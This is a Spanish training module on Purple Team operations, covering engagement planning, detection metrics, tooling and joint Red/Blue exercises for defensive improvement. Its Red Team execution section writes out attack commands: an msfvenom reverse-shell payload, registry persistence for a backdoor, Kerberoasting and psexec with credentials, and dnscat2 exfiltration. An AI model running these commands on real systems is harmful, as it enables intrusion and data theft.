

# 15 — Purple Team Operations

> 🎯 **Objetivo:** dominar las operaciones Purple Team: cómo colaborar efectivamente entre Red y Blue Teams para mejorar la postura de seguridad de una organización de forma medible y continua.

## 1. ¿Qué es Purple Team?

### 1.1 Definición

Purple Team **no es un equipo** — es una **metodología de colaboración** entre Red Team (ofensivo) y Blue Team (defensivo) para maximizar la efectividad de ambos.

```
┌─────────────────────────────────────────────────────────┐
│                 MODELO PURPLE TEAM                      │
├─────────────────────────────────────────────────────────┤
│                                                         │
│   RED TEAM                    BLUE TEAM                 │
│   (Atacante)                  (Defensor)                │
│       │                           │                     │
│       │      PURPLE TEAM          │                     │
│       │    (Colaboración)         │                     │
│       └───────────┬───────────────┘                     │
│                   │                                     │
│                   ▼                                     │
│        ┌─────────────────────┐                         │
│        │  Mejora Continua    │                         │
│        │  • Detección        │                         │
│        │  • Respuesta        │                         │
│        │  • Métricas         │                         │
│        │  • Cobertura        │                         │
│        └─────────────────────┘                         │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### 1.2 Purple Team vs Red/Blue Team

| Aspecto | Red Team | Blue Team | Purple Team |
|---------|----------|-----------|-------------|
| **Enfoque** | Encontrar vulnerabilidades | Proteger sistemas | Mejorar ambos |
| **Actividad** | Explotar | Defender | Colaborar |
| **Métricas** | Vulns encontradas | Incidentes detectados | Cobertura mejorada |
| **Entregable** | Reporte de hallazgos | Plan de defensa | Métricas de mejora |
| **Duración** | Campañas | 24/7 | Ejercicios programados |

### 1.3 Beneficios del Purple Team

```
┌─────────────────────────────────────────────────────────┐
│                BENEFICIOS PURPLE TEAM                   │
├─────────────────────────────────────────────────────────┤
│  1. Mejora medible de detección                         │
│  2. Reducción de tiempo de respuesta                    │
│  3. Cobertura de MITRE ATT&CK optimizada               │
│  4. Comunicación mejorada entre equipos                 │
│  5. ROI claro de inversiones en seguridad                │
│  6. Cultura de mejora continua                          │
│  7. Validación de controles existentes                  │
│  8. Identificación de gaps reales                       │
└─────────────────────────────────────────────────────────┘
```

## 2. Metodología Purple Team

### 2.1 Ciclo de vida Purple Team



### 2.2 Fases detalladas

#### Fase 1: Planificación

```yaml
# Purple Team Engagement Plan
metadata:
  project: "Purple Team Q1 2024"
  start_date: "2024-01-15"
  end_date: "2024-01-19"
  participants:
    red_team:
      - lead: "Ana García"
      - members: ["Carlos López", "María Rodríguez"]
    blue_team:
      - lead: "Pedro Martínez"
      - members: ["Laura Sánchez", "José Hernández"]

scope:
  systems:
    - "Active Directory Domain"
    - "Web Applications"
    - "Internal Network"
    - "Cloud Infrastructure"
  
  techniques:
    - "Initial Access"
    - "Execution"
    - "Persistence"
    - "Privilege Escalation"
    - "Defense Evasion"
    - "Credential Access"
    - "Discovery"
    - "Lateral Movement"
    - "Collection"
    - "Exfiltration"

objectives:
  - "Validate detection coverage for MITRE ATT&CK"
  - "Measure mean time to detect (MTTD)"
  - "Measure mean time to respond (MTTR)"
  - "Identify gaps in logging and monitoring"
```

#### Fase 2: Ejecución Red Team

```bash
# Técnicas a ejecutar (ejemplo)
# 1. Initial Access - Phishing
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.100 LPORT=4444 -f exe -o phishing.exe

# 2. Execution - PowerShell
powershell -enc [Base64 payload]

# 3. Persistence - Registry
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "update" /d "C:\Temp\backdoor.exe"

# 4. Privilege Escalation - Token Impersonation
# Usar Mimikatz o impersonate tokens

# 5. Defense Evasion - Process Injection
# Inyectar en proceso legítimo

# 6. Credential Access - Kerberoasting
impacket-GetUserSPNs corp.local/user:password -request

# 7. Discovery - BloodHound
bloodhound-python -u user -p password -d corp.local -ns 10.0.2.10 -c All

# 8. Lateral Movement - PsExec
impacket-psexec corp.local/admin:password@10.0.2.20

# 9. Collection - Data Staging
# Preparar datos para exfiltración

# 10. Exfiltration - DNS Tunneling
dnscat2 corp.local
```

#### Fase 3: Monitoreo Blue Team

```bash
# 1. Monitorear alertas en SIEM
# Wazuh/ELK/Splunk

# 2. Verificar detecciones
# ¿Se detectaron todas las técnicas?

# 3. Medir tiempos
# MTTD: Time to detect each technique
# MTTR: Time to respond to each alert

# 4. Documentar hallazgos
# Qué se detectó, qué no, por qué
```

#### Fase 4: Análisis Conjunto

```yaml
# Purple Team Analysis Meeting
date: "2024-01-19"
agenda:
  - "Review Red Team activities"
  - "Review Blue Team detections"
  - "Identify gaps"
  - "Prioritize improvements"
  - "Assign action items"

findings:
  detected:
    - technique: "T1566 - Phishing"
      status: "Detected"
      time_to_detect: "5 minutes"
      notes: "Email gateway blocked"
    
    - technique: "T1053 - Scheduled Task"
      status: "Detected"
      time_to_detect: "15 minutes"
      notes: "Sysmon alert triggered"
  
  not_detected:
    - technique: "T1558 - Kerberoasting"
      status: "Not Detected"
      root_cause: "No Kerberos logging enabled"
      priority: "High"
    
    - technique: "T1021 - Lateral Movement"
      status: "Partially Detected"
      root_cause: "SMB logging incomplete"
      priority: "Medium"

action_items:
  - owner: "Blue Team"
    action: "Enable Kerberos audit logging"
    priority: "High"
    due_date: "2024-01-26"
  
  - owner: "Blue Team"
    action: "Configure SMB logging"
    priority: "Medium"
    due_date: "2024-02-02"
```

## 3. Métricas Purple Team

### 3.1 Métricas Clave

| Métrica | Fórmula | Objetivo |
|---------|---------|----------|
| **MTTD** | Tiempo promedio de detección | < 30 minutos |
| **MTTR** | Tiempo promedio de respuesta | < 60 minutos |
| **Cobertura ATT&CK** | Técnicas detectadas / Total | > 80% |
| **Tasa de Detección** | Detecciones / Total ataques | > 90% |
| **Tasa de Falsos Positivos** | FP / Total alertas | < 5% |
| **Tiempo de Contención** | Tiempo hasta contener | < 30 minutos |

### 3.2 Dashboard de Métricas

```yaml
# Purple Team Metrics Dashboard
metrics:
  coverage:
    mitre_attack:
      total_techniques: 200
      detected: 160
      coverage_percentage: 80%
      by_tactic:
        initial_access: 85%
        execution: 75%
        persistence: 70%
        privilege_escalation: 80%
        defense_evasion: 65%
        credential_access: 75%
        discovery: 85%
        lateral_movement: 80%
        collection: 70%
        exfiltration: 75%
  
  performance:
    mttd: "18 minutes"
    mttr: "42 minutes"
    detection_rate: "88%"
    false_positive_rate: "3%"
    containment_time: "25 minutes"
  
  trends:
    - period: "Q1 2024"
      coverage: 72%
      mttd: 25
      mttr: 55
    - period: "Q2 2024"
      coverage: 78%
      mttd: 20
      mttr: 48
    - period: "Q3 2024"
      coverage: 82%
      mttd: 18
      mttr: 42
```

### 3.3 Reporte Purple Team

```markdown
# Purple Team Report - Q3 2024

## Resumen Ejecutivo
- Cobertura MITRE ATT&CK: 82% (↑6% vs Q2)
- MTTD: 18 min (↓2 min vs Q2)
- MTTR: 42 min (↓6 min vs Q2)
- Tasa de detección: 88%

## Cobertura por Táctico
| Táctico | Cobertura | Cambio |
|---------|-----------|--------|
| Initial Access | 85% | +5% |
| Execution | 75% | +3% |
| Persistence | 70% | +8% |
| Privilege Escalation | 80% | +5% |
| Defense Evasion | 65% | +10% |
| Credential Access | 75% | +5% |
| Discovery | 85% | +3% |
| Lateral Movement | 80% | +5% |
| Collection | 70% | +8% |
| Exfiltration | 75% | +5% |

## Hallazgos Principales
### Lo que mejoró
- Kerberoasting ahora se detecta (antes no)
- PowerShell logging habilitado
- Monitoreo de credenciales mejorado

### Lo que necesita mejora
- Defense evasion sigue siendo bajo (65%)
- Algunas técnicas de living-off-the-land no detectadas
- Falta monitoreo en cloud

## Acciones para Q4 2024
1. Implementar monitoreo de procesos en memoria
2. Habilitar logging de PowerShell avanzado
3. Agregar detección de tools legitimate
4. Implementar monitoreo cloud

## ROI
- Inversión: $50,000
- Ahorro estimado: $250,000 (evitar incidentes)
- ROI: 400%
```

## 4. Herramientas Purple Team

### 4.1 Herramientas de Ejecución

| Herramienta | Uso |
|-------------|-----|
| **Atomic Red Team** | Ejecución de técnicas MITRE ATT&CK |
| **Cobalt Strike** | Adversary simulation |
| **Sliver** | C2 framework |
| **MITRE CALDERA** | Autonomous adversary emulation |
| **Invoke-AtomicRedTeam** | PowerShell para técnicas |

### 4.2 Herramientas de Monitoreo

| Herramienta | Uso |
|-------------|-----|
| **Wazuh** | SIEM open source |
| **ELK Stack** | Log management y análisis |
| **Splunk** | SIEM enterprise |
| **Sigma** | Detección genérica |
| **YARA** | Detección de malware |

### 4.3 Herramientas de Análisis

| Herramienta | Uso |
|-------------|-----|
| **BloodHound** | Mapeo de rutas de ataque |
| **MITRE ATT&CK Navigator** | Visualización de cobertura |
| **DVTA** | Vulnerable target app |
| **DetectionLab** | Entorno de detección |

## 5. Ejercicios Prácticos

### Ejercicio 1: Ejecutar técnicas MITRE ATT&CK

```bash
# 1. Instalar Atomic Red Team
git clone https://github.com/redcanaryco/atomic-red-team.git
cd atomic-red-team

# 2. Ejecutar técnica específica
# T1003 - Credential Dumping
Invoke-AtomicRedTeam -TestNumbers T1003 -CheckPrereqs

# 3. Ejecutar y monitorear
Invoke-AtomicRedTeam -TestNumbers T1003 -GetPrereqs -Cleanup

# 4. Documentar resultados
# ¿Se detectó? ¿En cuánto tiempo?
```

### Ejercicio 2: Medir cobertura ATT&CK

```bash
# 1. Crear matriz de cobertura
# Usar MITRE ATT&CK Navigator

# 2. Marcar técnicas detectadas
# Verde: detectado
# Amarillo: parcialmente
# Rojo: no detectado

# 3. Calcular porcentaje
# Cobertura = Técnicas detectadas / Total

# 4. Identificar gaps
# Tácticos con menor cobertura
```

### Ejercicio 3: Análisis conjunto

```bash
# 1. Reunión Purple Team
# - Red team presenta técnicas ejecutadas
# - Blue team presenta detecciones
# - Identificar gaps juntos

# 2. Priorizar mejoras
# - Alto impacto, baja complejidad primero
# - Quick wins

# 3. Asignar responsables
# - Cada mejora tiene dueño y fecha

# 4. Seguimiento
# - Próxima reunión en 2 semanas
```

### Ejercicio 4: Reporte Purple Team

```markdown
# Reporte Purple Team - Ejercicio

## Técnicas Ejecutadas
| # | Téctica | Resultado | MTTD |
|---|---------|-----------|------|
| 1 | T1566 Phishing | ✅ Detectado | 5 min |
| 2 | T1059 PowerShell | ✅ Detectado | 10 min |
| 3 | T1053 Scheduled Task | ✅ Detectado | 15 min |
| 4 | T1558 Kerberoasting | ❌ No detectado | N/A |
| 5 | T1021 PsExec | ⚠️ Parcial | 25 min |

## Métricas
- Cobertura: 60% (3/5 detectadas)
- MTTD promedio: 17.5 min
- Gaps identificados: 2

## Acciones
1. Habilitar Kerberos logging (Alta prioridad)
2. Mejorar SMB monitoring (Media prioridad)
```

## 6. Referencias

| Recurso | Descripción |
|---------|-------------|
| [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) | Ejecución de técnicas MITRE |
| [MITRE ATT&CK](https://attack.mitre.org/) | Framework de tácticas |
| [CALDERA](https://caldera.mitre.org/) | Adversary emulation |
| [Sigma](https://github.com/SigmaHQ/sigma) | Detecciones genéricas |
| [Purple Team Guide](https://www.purple.team/) | Guía completa |

## 📌 Checkpoint final

Antes de avanzar, verifica que puedas:

- [ ] Explicar qué es Purple Team y sus beneficios
- [ ] Ejecutar técnicas MITRE ATT&CK con Atomic Red Team
- [ ] Medir cobertura de detección
- [ ] Realizar análisis conjunto Red/Blue
- [ ] Generar reporte Purple Team con métricas
- [ ] Identificar y priorizar gaps de detección

> ⏭️ **Siguiente:** [`06-forense-digital.md`](./06-forense-digital.md) — Cómo investigar y analizar incidentes.
